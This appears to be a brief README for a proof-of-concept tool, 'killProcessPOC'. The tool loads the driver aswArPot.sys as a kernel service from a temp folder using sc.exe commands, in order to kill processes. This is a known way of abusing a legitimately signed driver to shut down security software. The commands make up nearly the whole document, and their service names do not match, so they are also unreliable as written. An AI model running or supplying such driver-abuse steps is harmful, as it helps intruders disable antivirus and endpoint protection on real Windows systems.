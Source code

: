 # killProcessPOC
use aswArPot.sys to kill process

```
sc.exe create aswSP_ArPots binPath=C:\windows\temp\aswarpot.sys type=kernel

sc.exe start aswSP_ArPot2

```
